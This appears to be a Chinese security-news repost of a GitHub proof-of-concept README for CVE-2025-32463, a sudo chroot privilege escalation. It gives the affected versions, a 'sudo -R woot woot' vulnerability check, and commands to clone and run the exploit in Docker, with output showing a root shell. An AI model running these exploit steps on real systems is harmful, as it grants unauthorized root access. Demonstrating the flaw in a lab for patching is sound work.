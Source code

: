 #  通过带有 chroot 选项的 sudo 二进制文件将权限提升至 root CVE-2025-32463  
 Ots安全   2025-07-07 08:37  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
该存储库提供了一个最小的、可重现的环境来演示chroot 功能中的CVE-2025-32463权限提升缺陷。sudo  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1px solid rgba(209, 217, 224, 0.7);"><th data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;font-weight: 600;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">文件</span></font></font></th><th style="box-sizing: border-box;padding: 6px 13px;font-weight: 600;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">目的</span></font></font></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1px solid rgba(209, 217, 224, 0.7);"><td data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><strong style="box-sizing: border-box;font-weight: 600;margin-bottom: 0px;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: normal;">Dockerfile</span></span></font></font></strong></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;vertical-align: inherit;"></font><strong style="box-sizing: border-box;font-weight: 600;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">使用易受攻击的sudo 1.9.16p2</span></span></font></font></strong><font style="box-sizing: border-box;margin-bottom: 0px;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">和构建工具</span></span></font><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">构建 Ubuntu 24.04 映像</span></span></font></font></td></tr><tr style="box-sizing: border-box;background-color: rgb(246, 248, 250);border-top: 1px solid rgba(209, 217, 224, 0.7);"><td data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><strong style="box-sizing: border-box;font-weight: 600;margin-bottom: 0px;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: normal;">sudo‑chwoot.sh</span></span></font></font></strong></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;margin-bottom: 0px;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">概念验证漏洞，在 chroot 中生成 root shell</span></span></font></font></td></tr><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1px solid rgba(209, 217, 224, 0.7);"><td data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">run.sh</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;margin-bottom: 0px;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">构建镜像（如果需要）并启动漏洞利用容器的辅助脚本</span></span></font></font></td></tr></tbody></table>  
受影响的版本  
  
大多数 Linux 发行版上的sudo 1.9.14至1.9.17（所有 p 修订版）的易受攻击的版本均受到影响。  
  
快速漏洞检查  
  
```
# Vulnerable sudopwn ~ $ sudo -R woot wootsudo: woot: No such file or directory# Patched sudopwn ~ $ sudo -R woot woot[sudo] password for pwn:sudo: you are not permitted to use the -R option with woot
```  
  
  
在 Docker 容器中测试漏洞利用  
  
```
# 1 – clone repo$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git$ cd CVE-2025-32463_chwoot# 2 – build and run Docker image (tagged "sudo-chwoot")$ ./run.sh# 3 – run exploit in container (runs root command directly or drops you into a root shell)pwn@f722d9182d1f:~$ ./sudo-chwoot.sh idwoot!uid=0(root) gid=0(root) groups=0(root),1001(pwn)pwn@f722d9182d1f:~$ ./sudo-chwoot.shwoot!root@f722d9182d1f:/# iduid=0(root) gid=0(root) groups=0(root),1001(pwn)root@f722d9182d1f:/#
```  
  
  
run.sh传递--privileged到--rmDocker，以便容器在您退出时自行清理。  
  
清理  
  
完成后删除图像：  
  
```
docker rmi sudo-chwoot
```  
  
  
项目地址：  
  
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这**  
  
